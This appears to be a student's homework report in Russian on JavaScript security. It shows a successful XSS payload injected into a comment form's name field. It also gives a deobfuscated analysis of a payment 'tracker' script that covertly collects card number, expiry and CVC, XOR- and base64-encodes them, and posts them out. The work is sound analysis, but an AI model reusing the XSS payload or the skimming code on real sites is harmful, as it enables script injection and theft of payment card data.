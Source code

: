 # Домашнее задание к занятию «1.4. JavaScript»  
## Задание «Комментарии»  
### Результаты выполнения задания  

Сработала возможность инъекции кода в поле "Имя"
```
<img src="1" onerror="alert('pwned')">
```

![](pic/name_field_xss.png)  

## Задание «Трекер»* 

При успешной оплате скрипт отправляет запрос вида:
```
{
    "traceId":"BA0KU1xZBAYCAg1TUwIEBwwDAgYMDl9SAVkGBggBC1APXAcGAg5RBAdVA1ENVQUKUFlTAVtfDgNWDgpQDVUFVA",
    "total":19328
}
```  
Настараживает поле `traceId` оно имеет base64 кодировку, далее определить содержимое не получилось
После деобфускации библиотеки `tracker.min.js` наткнулся на следующий код:
```
window[_0x19f579(0x94)] = _0x4ee945 => {
    (async () => {
        const _0x4905ea = _0xd81a,
            _0x548d0a = window[_0x4905ea(0x7f)],
            _0x1466a6 = document['querySelector'](_0x4905ea(0xa0))?.['value'],
            _0x869b1e = document['querySelector']('[name=\"month\"]')?.[_0x4905ea(0x7e)],
            _0xdf1eba = document[_0x4905ea(0x78)]('[name=\"year\"]')?.[_0x4905ea(0x7e)],
            _0xf147f5 = document[_0x4905ea(0x78)](_0x4905ea(0x9f))?.['value'];
        let _0x2f404e = _0x4ee945 + ':' + _0x1466a6['replace'](/ /g, '') + ':' + _0x869b1e + ':' + _0xdf1eba + ':' + _0xf147f5;
        _0x2f404e[_0x4905ea(0x90)] < _0x548d0a['length'] && (_0x2f404e += uniq(_0x548d0a[_0x4905ea(0x90)] - _0x2f404e[_0x4905ea(0x90)]));
        const _0x90860c = _0x2f404e['split']('')[_0x4905ea(0x87)]((_0x591383, _0x55daa1) => String['fromCharCode'](_0x591383[_0x4905ea(0x86)](0x0) ^ _0x548d0a[_0x4905ea(0x86)](_0x55daa1)))['join'](''),
            _0x1fdeb7 = btoa(_0x90860c)[_0x4905ea(0x99)](/=/g, ''),
            _0x465be8 = {
                'traceId': _0x1fdeb7,
                'total': _0x4ee945
            };
        try {
            if ('QvyZV' !== _0x4905ea(0x98)) {
                function _0x227d47() {
                    const _0x34a381 = _0x332f10 ? function () {
                        if (_0x4eb7ae) {
                            const _0x289642 = _0x2e52ec['apply'](_0x1887ac, arguments);
                            return _0x29a35c = null, _0x289642;
                        }
                    } : function () { };
                    return _0xea85ac = ![], _0x34a381;
                }
            } else await fetch(_0x4905ea(0x82), {
                'method': _0x4905ea(0x89),
                'headers': {
                    'Content-Type': _0x4905ea(0x81),
                    'Authorization': _0x548d0a
                },
                'body': JSON[_0x4905ea(0x7d)](_0x465be8)
            });
        } catch (_0x4524b9) {
            console[_0x4905ea(0x8f)](_0x4524b9);
        }
    })();
};
```
Алгоритм очень похож на:
1. Получение значения полей формы ввода 
` _0x1466a6 = document['querySelector'](_0x4905ea(0xa0))?.['value']`
2. Сериализация данных и возможно шифрование
`let _0x2f404e = _0x4ee945 + ':' + _0x1466a6['replace'](/ /g, '') + ':' + _0x869b1e + ':' + _0xdf1eba + ':' + _0xf147f5;`
3. Кодирование в Base64
` _0x1fdeb7 = btoa(_0x90860c)[_0x4905ea(0x99)](/=/g, ''),`
4. Отправка данных
`await fetch(_0x4905ea(0x82)`